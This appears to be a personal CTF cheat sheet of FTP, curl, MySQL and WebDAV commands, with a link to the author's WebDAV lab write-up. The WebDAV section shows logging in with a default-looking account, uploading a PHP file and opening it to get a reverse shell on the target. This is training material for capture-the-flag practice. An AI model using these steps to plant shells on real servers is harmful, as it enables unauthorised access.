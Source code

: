 
### FTP Commands
- #### Downloding from  `ftp` to `local`
```sh
mget <filename>
mget *
mget *.fileextention
```
- #### Alternative of `cat`
```sh
ftp> get file.txt -
```
### Curl
- #### Mining String from Html Through Curl
```sh
curl -s http://(IP/URL)/ | grep hidden
```

### MySQL Commands

**Login**
```sh
mysql -u <name> -h <ip> -p --ssl=0
```
- We need password for this login

```sql
show databases;
use <db-name>;
show tables;
select * from <table-name>;

update <table-name> set run = 1 ;

```
### WebDav
```sh
└─$ cadaver http://<target_ip>/webdav/

Authentication required for webdav on server `10.10.236.5':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        M5WDGB5.php                         1113  Aug 12 17:45
        passwd.dav                            44  Aug 25  2019
dav:/webdav/> put hello.php
Uploading hello.php to `/webdav/hello.php':
Progress: [                              ]   0Progress: [=============================>] 100.0% of 5491 bytes succeeded.

```
- **Then try to access the webdev through your browser and you can find the php reverse shell**
- Here is My WriteUp about webdav CTF 
    - [Dav](https://github.com/Ruhanyat-994/myCTF/blob/master/THM-CTF/Dav/WriteUp.md)
